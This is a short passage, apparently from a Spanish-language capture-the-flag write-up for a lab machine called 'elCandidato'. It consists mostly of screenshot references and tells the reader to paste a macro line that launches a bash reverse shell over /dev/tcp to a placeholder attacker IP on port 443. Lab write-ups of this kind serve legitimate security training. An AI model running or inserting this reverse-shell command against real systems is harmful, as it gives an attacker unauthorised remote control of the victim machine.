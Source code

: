 <img src="/assets/images/THL-writeup-elCandidato/Captura11.png">
</p>

* En esa nueva ventana, agrega el siguiente código y luego guarda con **CTRL + S** o desde el botón **Guardar** en la esquina superior izquierda:
```bash
shell("bash -c 'bash -i >& /dev/tcp/Tu_IP/443 0>&1'")
```

<p align="center">
<img src="/assets/images/THL-writeup-elCandidato/Captura12.png">
</p>
